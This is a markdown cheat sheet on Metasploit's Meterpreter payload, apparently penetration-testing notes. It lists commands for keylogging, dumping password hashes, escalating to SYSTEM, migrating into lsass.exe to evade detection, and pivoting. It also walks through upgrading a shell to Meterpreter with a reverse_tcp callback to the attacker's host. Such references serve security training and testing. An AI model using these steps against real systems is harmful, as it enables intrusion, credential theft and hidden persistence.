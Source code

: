 Meterpreter is an advanced and flexible payload used in **Metasploit Framework**, designed for post-exploitation tasks after successfully exploiting a target system. It allows attackers (or ethical hackers) to interact with and control the compromised system remotely, offering numerous features for pivoting, escalation, and lateral movement.

## Common Meterpreter Commands

1. **Basic Commands**:
- `sysinfo`: Displays system information (OS, architecture, logged-in users).
- `getuid`: Displays the current user ID.
- `shell`: Opens a system shell for further command execution.
- `background`: Sends the current session to the background, allowing you to use other Metasploit commands.
2. **File Management**:
- `upload <local_path> <remote_path>`: Uploads files to the target system.
- `download <remote_path> <local_path>`: Downloads files from the target system.
3. **Network & Post-Exploitation**:
- `portfwd`: Forwards ports between the target machine and the attacker's machine.
- `route`: Manages routes for pivoting through compromised systems to reach other targets on the same network.
4. **Privilege Escalation**:      
- `getsystem`: Attempts to escalate privileges to SYSTEM.
- `migrate`: Migrates the Meterpreter session to another process (often a more stable one).
5. **Keylogging**:    
- `keyscan_start`: Starts logging keystrokes on the victim's system.
- `keyscan_dump`: Displays the captured keystrokes.
6. **Password Dumping**:
- `hashdump`: Dumps the hashes of the local user accounts from the target system. This is useful for offline cracking of password hashes.

## Process migration
**Process migration** in exploitation involves moving a Meterpreter session from the process where the initial payload is running to a more stable or advantageous process on the target system. This is typically done to maintain session stability, evade detection, or elevate privileges. When migrating to a process like `lsass.exe`, the session inherits the process's privileges, which are often at the highest level (NT AUTHORITY\SYSTEM).

In contrast, migrating to other processes, such as `explorer.exe`, may not elevate privileges but can serve as a means of camouflaging the session within a less monitored or critical process. 

Privilege escalation can also be achieved using the `getsystem` command after migrating or stabilizing the session. This command attempts various techniques to elevate the session to NT AUTHORITY\SYSTEM privileges. 

#### Execution
1. **Search for a Specific Process**
```bash
meterpreter > pgrep lsass
# Or
meterpreter > pgrep explorer
# Or
meterpreter > ps
```
This will return the PID of the `lsass.exe` or `explorer.exe` process.

2. **Migrate to the Desired Process**
```bash
meterpreter > migrate <PID>
```


## Ensuring correct payload
Verify that you are using the correct payload that matches the architecture of the target system (32-bit vs. 64-bit). For instance:
- For 32-bit systems, use `windows/meterpreter/reverse_tcp`.
- For 64-bit systems, use `windows/x64/meterpreter/reverse_tcp`.

If the wrong payload is used, you may establish a connection but fail to create the Meterpreter session, as the payload will not be compatible with the target architecture.

## Upgrading Command Shells to Meterpreter Shells 

The `shell_to_meterpreter` module in Metasploit is specifically designed to upgrade a basic command shell to a Meterpreter shell. This method works by injecting a Meterpreter payload into the target system.

```bash
# Exit from the shell session using Ctrl+Z
use post/multi/manage/shell_to_meterpreter
# Specify the session ID of the command shell you want to upgrade.
set session <session_id>
# Choose an appropriate Meterpreter payload.
set payload windows/meterpreter/reverse_tcp
set lhost <your_ip>
set lport <your_port>
run
```